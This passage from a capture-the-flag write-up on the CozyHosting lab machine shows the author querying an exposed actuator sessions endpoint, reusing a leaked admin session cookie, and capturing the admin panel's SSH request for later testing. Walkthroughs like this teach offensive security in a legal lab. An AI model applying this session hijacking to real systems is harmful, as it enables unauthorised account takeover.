 ```
oxdf@hacky$ curl -s http://cozyhosting.htb/actuator/sessions | jq .
{
  "EEE571008BF31ADB2E904F4E8CBF5ABB": "UNAUTHORIZED",
  "E1CE43B04CC6C958A7496877E331256D": "UNAUTHORIZED",
  "2926B07C6C6B8CB0B92A5AE5DF5AE2B6": "UNAUTHORIZED",
  "B3C02C5C13A99CCEFC3AF469D28374C9": "UNAUTHORIZED",
  "C987ACE5C53875AE151372328A544FAF": "kanderson"
}

```

## Shell as app

### Session Stealing

I’ll go into Firefox dev tools, under Storage -> Cookies and replace the value for `JSESSIONID` with the kandersons user’s cookie.

![image-20240227102346639](https://0xdf.gitlab.io/img/image-20240227102346639.png)

Now when I refresh `/login` or visit `/admin`, there’s a panel and I’m authenticated as K. Anderson:

![image-20240227102421433](https://0xdf.gitlab.io/img/image-20240227102421433.png)

### Automatic Patching

The interesting part of the page is the form at the bottom. If I submit my IP as the hostname and 0xdf as the username, it returns an error after short wait:

![image-20240227102851972](https://0xdf.gitlab.io/img/image-20240227102851972.png)

This is a POST request to `/executessh` (noticed above).

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin?error=ssh:%20connect%20to%20host%2010.10.14.6%20port%2022:%20Connection%20timed%20out
Cookie: JSESSIONID=C987ACE5C53875AE151372328A544FAF
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

host=10.10.14.6&username=0xdf

```
